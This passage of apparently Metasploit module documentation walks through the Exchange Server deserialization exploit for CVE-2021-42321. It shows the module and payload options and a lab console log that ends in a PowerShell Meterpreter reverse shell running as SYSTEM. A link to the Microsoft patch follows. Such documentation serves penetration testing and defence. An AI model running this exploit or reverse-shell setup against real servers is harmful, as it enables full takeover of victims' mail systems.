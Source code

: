 ```
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        192.168.159.42   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT         443              yes       The target port (TCP)
   SRVHOST       0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT       8080             yes       The local port to listen on.
   SSL           true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI     /                yes       Base path
   URIPATH                        no        The URI to use for this exploit (default is random)
   VHOST                          no        HTTP server virtual host


Payload options (cmd/windows/powershell/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.250.134  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Command


msf exploit(windows/http/exchange_chainedserializationbinder_rce) > exploit

[*] Started reverse TCP handler on 192.168.250.134:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Target is an Exchange Server!
[+] The target appears to be vulnerable. Exchange Server 15.1.2375.7 is vulnerable to CVE-2021-42321
[*] Getting the user's inbox folder's ID and ChangeKey ID...
[+] ChangeKey value for Inbox folder is AQAAABYAAAD9j/m9iNuTRpA5mrD5EV0AAAAACmbL
[+] ID value for Inbox folder is AQMkADU1ADBhYjYzMi02MTQ3LTRlOTEtYjU1ADAtN2M0ZDBhYjYzODVlAC4AAAMhko4gUQEoR6mlLklj/zwrAQD9j/m9iNuTRpA5mrD5EV0AAAMBDAAAAA==
[*] Deleting the user configuration object associated with Inbox folder...
[!] Was not able to successfully delete the existing user configuration on the Inbox folder!
[!] Sometimes this may occur when there is not an existing config applied to the Inbox folder (default 2016 installs have this issue)!
[*] Creating the malicious user configuration object on the Inbox folder!
[+] Successfully created the malicious user configuration object and associated with the Inbox folder!
[*] Attempting to deserialize the user configuration object using a GetClientAccessToken request...
[*] Sending stage (175686 bytes) to 192.168.250.237
[*] Meterpreter session 1 opened (192.168.250.134:4444 -> 192.168.250.237:60610) at 2022-08-16 15:56:01 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-BPID95ACQ7E
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : EXCHG
```

[KB5008631]: https://support.microsoft.com/en-gb/topic/description-of-the-security-update-for-microsoft-exchange-server-2019-2016-and-2013-january-11-2022-kb5008631-2ee4d1f3-8341-4a4d-86be-4b73bc944f1b